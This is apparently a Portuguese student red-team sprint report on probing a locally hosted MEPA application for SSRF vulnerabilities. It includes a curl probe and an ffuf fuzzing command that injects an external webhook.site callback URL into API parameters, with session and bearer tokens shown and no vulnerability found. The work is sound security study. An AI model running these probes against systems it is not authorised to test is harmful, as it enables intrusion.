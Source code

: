 # Relatório Sprint 1

## MEPA RED TEAM

* Carlos - 221031265
* João - 200058525
* Luis - 180066161
* Vinicius - 160147816

## Atividades realizadas

Durante esta sprint focamos nas seguintes atividades principais:

* **Configuração do ambiente**: Subimos o ambiente do MEPA localmente em nossas máquinas.

* **Exploração inicial da estrutura do projeto**: Realizamos uma análise preliminar da arquitetura e das rotas da API do MEPA, com o objetivo de identificar pontos que possam ser suscetíveis a vulnerabilidades do tipo SSRF.

* **Estudo sobre SSRF (Server-Side Request Forgery)**: Dedicamos tempo ao estudo teórico sobre a vulnerabilidade SSRF, utilizando as referências de estudo.



## Exploração inicial

### Teste com `curl`

Executamos um teste básico utilizando `curl` para verificar o comportamento da aplicação ao receber uma URL como parâmetro:

```
curl -L -v "http://localhost:8000/api?next=http://localhost:8000/api/admin/" -H "Cookie: sessionid=s24ols0or42p5ib616yv1q3wglcvi3le"
```

O objetivo era verificar se a aplicação realiza alguma requisição server-side para o endereço fornecido no parâmetro `next`, comportamento característico de uma vulnerabilidade SSRF.

### Fuzzing com FFUF

Realizamos fuzzing utilizando o **FFUF** para explorar potenciais pontos vulneráveis nas rotas da API do MEPA, enviando URLs para verificar se a aplicação realiza requisições.

Exemplo de um dos testes realizados:

```
ffuf -u "http://localhost:8000/api/reset-password/?FUZZ=https://webhook.site/b68374b4-2735-4223-92df-eb8b00bb7610" -H "Authorization: Bearer d71d2033f406250611bf1f09471f56ba2aab7f4c" -w wordlist-ssrf.txt -fs 0
```

```
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://localhost:8000/api/reset-password/?FUZZ=https://webhook.site/b68374b4-2735-4223-92df-eb8b00bb7610
 :: Wordlist         : FUZZ: /home/carlos/Documentos/UnB/2025.1/GCES/SSRF/wordlist-ssrf.txt
 :: Header           : Authorization: Bearer d71d2033f406250611bf1f09471f56ba2aab7f4c
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

:: Progress: [6477/6477] :: Job [1/1] :: 28 req/sec :: Duration: [0:04:33] :: Errors: 0 ::
```


## Dificuldades encontradas

* Determinar quais pontos da aplicação são, de fato, suscetíveis à exploração de SSRF.

## Próximos passos

* Aprofundar a análise de possíveis pontos vulneráveis.
* Realizar testes práticos de SSRF utilizando ferramentas especializadas, como **SSRFmap** e **Burp Suite**, para automatizar e potencializar a detecção e exploração de vulnerabilidades.
* Continuar o estudo sobre SSRF.